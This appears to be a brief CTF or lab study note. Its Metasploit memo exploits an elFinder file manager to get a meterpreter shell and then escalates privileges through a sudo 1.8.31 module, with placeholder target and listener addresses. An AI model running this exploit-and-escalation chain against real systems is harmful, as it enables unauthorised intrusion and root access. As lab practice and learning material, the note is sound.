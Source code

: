 # Lesson Learn
- how to use `Metasploit`  
    - In Metasploit, how to use a session with [CTRL] + [Z] or `bg` command.  
- how to set Reverse Shell for WSL  
    - It doen't work well when you use Metasploit due to network.

# Memo
```
msf6> search elFinder
msf6> use 3
msf6> options
msf6> set RHOSTS XXX.XXX.XXX.XXX
msf6> set LHOST YYY.YYY.YYY.YYY
msf6> run
meterpreter> shell
getuid
sudo -V
exit
meterpreter > [CTRL] + [Z] or bg
msf6> search sudo 1.8.31
msf6> use 0
msf6> sessions
msf6> set SESSION [number]
msf6> run
```